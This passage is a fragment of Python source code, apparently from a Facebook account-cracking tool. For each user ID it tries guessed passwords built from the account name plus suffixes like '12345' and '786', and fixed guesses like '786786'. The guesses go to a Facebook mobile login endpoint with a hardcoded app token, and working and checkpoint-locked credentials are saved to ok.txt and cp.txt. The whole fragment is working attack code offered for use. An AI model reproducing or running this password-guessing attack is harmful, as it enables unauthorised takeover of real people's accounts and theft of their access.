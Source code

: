 		                    pass3=name+"12345"
		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                    d=json.loads(q)
		                    if 'www.facebook.com' in d['error_msg']:
		                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass3+"\x1b[1;91m | \x1b[1;97m"+name)
		                        cp=open("cp.txt","a")
		                        cp.write(uid+" | "+pass3+"\n")
		                        cp.close()
		                        cps.append(uid)
		                    else:
		                        if 'access_token' in d:
		                            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass3+" | "+name)
		                            ok=open("ok.txt","a")
		                            ok.write(uid+" | "+pass3+"\n")
		                            ok.close()
		                            oks.append(uid)
		                        else:
		                            pass4=name+"786"
		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                            d=json.loads(q)
		                            if 'www.facebook.com' in d['error_msg']:
		                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass4+"\x1b[1;91m | \x1b[1;97m"+name)
		                                cp=open("cp.txt","a")
		                                cp.write(uid+" | "+pass4+"\n")
		                                cp.close()
		                                cps.append(uid)
		                            else:
		                                if 'access_token' in d:
		                                    print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass4+" | "+name)
		                                    ok=open("ok.txt","a")
		                                    ok.write(uid+" | "+pass4+"\n")
		                                    ok.close()
		                                    oks.append(uid)
		                                else:
		                                    pass5="786786"
		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                    d=json.loads(q)
		                                    if 'www.facebook.com' in d['error_msg']:
		                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass5+"\x1b[1;91m | \x1b[1;97m"+name)
		                                        cp=open("cp.txt","a")
		                                        cp.write(uid+" | "+pass5+"\n")
		                                        cp.close()
		                                        cps.append(uid)
		                                    else:
		                                        if 'access_token' in d:
		                                            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass5+" | "+name)
		                                            ok=open("ok.txt","a")
		                                            ok.write(uid+" | "+pass5+"\n")
		                                            ok.close()
		                                            oks.append(uid)
		                                        else:
		                                            pass6="786000"